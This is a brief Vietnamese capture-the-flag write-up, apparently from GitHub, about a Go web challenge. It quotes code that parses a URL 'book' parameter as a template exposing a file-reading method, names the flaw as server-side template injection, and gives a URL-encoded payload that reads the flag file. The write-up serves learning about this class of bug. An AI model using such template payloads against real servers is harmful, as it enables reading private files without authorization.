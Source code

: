 Khi ta đọc source code của bài này, ta thấy :

<img width="960" height="446" alt="image" src="https://github.com/user-attachments/assets/cff1cbec-8759-4e44-a9a3-3c89df5133fc" />


```html
tmpl, err := template.New("book").Parse(userBook)
tmpl.Execute(w, ReadBook{})
```

- `userBook` là tham số từ URL `?book=...`.
- `tmpl.Execute(w, ReadBook{})` truyền một object **ReadBook** vào template.
- Struct `ReadBook` có method:

```html
func (rb ReadBook) ReadBook(filePath string) string {
    content, err := os.ReadFile(filePath)
    ...
}
```

Nghĩa là nếu trong template bạn gọi {{ .ReadBook "/path" }} → server sẽ đọc file /path và trả nội dung.

Kết luận: Đây là **Server-Side Template Injection (SSTI)** → có thể đọc file tùy ý (Local File Read).
Vậy ta sẽ chèn payload vào url như sau: 

```html
/books?book=%7B%7B.ReadBook%20"%2Fproc%2Fself%2Fcwd%2Fflag.txt"%7D%7D
```

<img width="1246" height="150" alt="image" src="https://github.com/user-attachments/assets/30bdfc32-5f76-4f6e-affb-72981363a6b7" />
